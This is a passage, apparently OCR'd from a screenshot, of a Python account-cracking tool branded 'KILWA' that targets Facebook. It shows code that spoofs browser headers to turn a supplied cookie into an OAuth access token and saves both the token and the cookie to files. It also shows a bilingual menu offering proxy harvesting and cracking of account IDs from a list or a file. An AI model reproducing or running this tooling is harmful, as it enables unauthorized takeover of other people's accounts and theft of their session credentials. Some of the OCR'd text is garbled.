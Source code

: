 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36',
'Referer': 'https://www.instagram.com/','Host': 'www.facebook.com',
'Sec-Fetch-Mode': 'cors',
'Accept': '*/*',
'Connection': 'keep-alive',
'Sec-Fetch-Site': 'cross-site',
'Sec-Fetch-Dest': 'empty',
'Origin': 'https://www.instagram.com',
'Accept-Encoding': 'gzip, deflate',
})
			response = rsn.get('https://www.facebook.com/x/oauth/status?client_id=124024574287414&wants_cookie_data=true&origin=1&input_token=&sdk=joey&blueirect_uri=https://www.instagram.com/brutalid_/', cookies={'cookie':cookie})
			if '"access_token":' in str(response.headers):
			 	token = re.search('"access_token":"(.*?)"', str(response.headers)).group(1)
			 	open(".token.txt", "w").write(token)
			 	print(' \033[2;32mOk Cokies Reset The Tool ✓ ')
			 	open("kilwathebest.txtt", "w").write(cookie)
			else:
			 print(" \033[1;31mBad Cokies No ✘")
		except:
			print(' Bad ')
	except:
		print(' Error.')
def banner():
			pass		
def menu():
	os.system('clear')
	banner()	

#~~~~~~~~♡ My Menu ♡~~~~~~#
	تزيين = ('~'*56)


	logokilwa = '''                             

        ██╗  ██╗██╗██╗     ██╗    ██╗ █████╗ 
        ██║ ██╔╝██║██║     ██║    ██║██╔══██╗
        █████╔╝ ██║██║     ██║ █╗ ██║███████║
        ██╔═██╗ ██║██║     ██║███╗██║██╔══██║
        ██║  ██╗██║███████╗╚███╔███╔╝██║  ██║
        ╚═╝  ╚═╝╚═╝╚══════╝ ╚══╝╚══╝ ╚═╝  ╚═╝
                                             

'''
	lgo = '''
	⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷
	⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠿⠟⠛⠻⢿⣿⣿⣿
	⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠏⠀⠀⠀⠀⠀ ⣿⣿⣿
	⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡟⠀⠀⠀⣰⣶⣶⣾⣿⣿⣿
	⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⠀⠀⣿⣿⣿⣿⣿⣿⣿
	⣿⣿⣿⣿⣿⣿⣿⣿⣿⠀@Lx0b2⠀⠀⠀⣿⣿⣿⣿
	⣿⣿⣿⣿⣿⣿⣿⣿⣿ @Pythonln ⣿⣿⣿⣿
	⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀F⠀⣿⣿⣿⣿⣿⣿⣿
	⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀A⠀⣿⣿⣿⣿⣿⣿⣿
	⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀C⠀⣿⣿⣿⣿⣿⣿⣿
	⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀E⠀⣿⣿⣿⣿⣿⣿⡿'''
	cetak(nel(logokilwa+lgo,style='bold red'))
	cetak(nel(f'''{ارجواني}ʚ[1]ɞ  • Get Proxyes -{اخضر} استخراج بروكسيات 
{تزيين}
{ارجواني}ʚ[2]ɞ - {اخضر}Crack IDs • {احمرثاني} صيد من ايديات
{تزيين}
{ارجواني}ʚ[3]ɞ - {اخضر}Crack File • {احمر} صيد من ملف
{تزيين}
{ارجواني}ʚ[0]ɞ - {احمر}Log Out • تسجيل خروج 